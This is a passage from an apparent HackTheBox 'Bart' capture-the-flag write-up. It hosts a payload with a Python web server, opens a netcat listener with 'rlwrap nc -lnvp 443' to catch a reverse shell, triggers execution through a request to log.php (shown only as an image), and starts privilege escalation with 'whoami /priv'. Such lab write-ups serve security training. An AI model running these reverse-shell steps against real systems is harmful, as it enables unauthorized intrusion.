 
Now lets start a python server with:

```bash
python3 -m http.server 80
```

Start the listener with:

```bash
rlwrap nc -lnvp 443
```

Now we can execute by sending the follwing request to `log.php`:

![execute-34](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/execute-34.png)


Lets check the listener:

![shell-35](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bart/img/shell-35.png)

And finally, we get a shell. 


## Privilege Escalation

If we take a look at our user's privileges with:

```cmd
whoami /priv
```
